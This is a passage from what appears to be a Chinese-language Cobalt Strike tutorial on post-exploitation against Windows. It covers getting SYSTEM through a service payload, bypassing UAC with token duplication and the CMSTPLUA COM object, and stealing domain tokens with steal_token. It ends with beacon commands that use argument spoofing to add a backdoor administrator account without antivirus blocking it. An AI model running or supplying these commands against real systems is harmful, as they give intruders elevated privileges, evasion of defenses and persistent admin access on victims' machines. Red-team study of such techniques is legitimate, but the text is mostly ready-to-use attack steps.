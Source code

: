 另一种获取 SYSTEM 权限的方法是创建一个运行 payload 的服务。 elevate sve-exe [监听器] 命令可以实现此目的。此命令会在目标磁盘上落地一个运行 payload 的可执行文件、创建一个服务来运行此 exe，承担对 payload 的控制，然后清理服务和可执行文件。

**Bypass UAC**

Microsoft 自 Windows Vista 中引入了 UAC 机制并在 Windows 7 中对 UAC 机制进行了完善。UAC 与 UNIX 中的 sudo 的工作机制十分相似。平时用户以普通权限工作，当用户需要执行特权操作时，系统会询问他们是否要提升其权限。

Cobalt Strike 附带了一些绕过 UAC 的攻击。但如果当前用户不是管理员，攻击会失效。要检查当前用户是否在管理员组里，使用 `run whoami /groups` 命令。

`elevate uac-token-duplication [listener]` 命令会使用提升的权限派生一个临时的进程并将一个 payload stage 注入进此进程。此工具使用一个 UAC 漏洞允许一个非提权的进程使用从一个提权的进程窃取的令牌来启动一个任意进程。该漏洞要求攻击者一些分配给提权的令牌的权限。你的新会话的能力会反映这些受限的权利。如果「始终通知」处于最高设置，此攻击要求提权的进程已经运行在当前桌面会话中（作为同一用户）。此攻击适用于2018年11月更新之前的 Windows 7 和 Windows 10 系统。

`runasadmin uac-token-duplication [命令]` 是和上面描述的相同的攻击，但是此变形是在一个提权的上下文中运行你选择的命令。

`runasadmin uac-cmstplua [命令]` 将尝试绕过 UAC 并在一个提权的上下文中运行命令。此攻击依赖于 COM 对象，该对象会自动从特定的进程（微软签名的，位于 c:\windows\* 目录下的）上下文中提权。

**令牌假冒**

当你获取了本地计算机的 system 权限后，如果这台机器上有域用户跑的进程，就直接可以窃取域账号的 token，然后从本地用户组跨入域环境。如果这台机器上有域管的开的进程，那么直接 steal token 后就可以登录域控了。
```bash
steal_token <PID>
```

#### argue

**绕过杀软添加用户**

argue 进程参数欺骗后可使用 run 或 execute 来执行 net1 命令添加一个管理员用户，全程无拦截，而用 shell 执行 net1 命令时仍然会被拦截，因为它还是通过创建一个 cmd.exe 子进程来执行的。
```
argue 进程参数欺骗
argue [command] [fake arguments]
argue 命令 假参数 欺骗某个命令参数
argue [command]
argue 命令 取消欺骗某个命令参数

beacon> argue net1 /bypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypass
beacon> run net1 user demouser Abcd!@#$12 /add
beacon> run net1 localgroup administrators what /add
```

![](../../../assets/img/Security/安全工具/CobaltStrike/59.png)
